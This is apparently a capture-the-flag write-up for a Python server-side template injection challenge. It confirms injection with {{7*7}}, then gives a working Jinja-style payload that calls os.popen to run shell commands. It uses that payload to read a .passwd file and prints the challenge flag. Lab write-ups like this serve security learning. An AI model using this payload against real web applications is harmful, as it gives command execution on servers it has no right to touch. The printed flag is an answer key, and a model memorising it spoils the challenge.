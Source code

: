```yaml
---
layout: default
title: Python-Server-side-Template-Injection-Introduction
---
```


By supplying `{{7*7}}` and recieving: `49`, we can assume `SSTI` is working here.
![SSTI PoC](./images/Python-Server-side-Template-Injection-Introduction_SSTI.png)

So, I simply went to [PayloadAllTheThings SSTI](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/Python/) and grabbed this payload, which is called *Exploit The SSTI By Calling os.popen().read()*
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Then, as you can see the command `id` executed.

So, I run `ls` and saw the file `.passwd` exists, and read it using `cat .passwd` to achieve the flag.
![FINAL img](./images/Python-Server-side-Template-Injection-Introduction_FINAL.png)


**Flag:** ***`Python_SST1_1s_co0l_4nd_mY_p4yl04ds_4r3_1ns4n3!!!`***
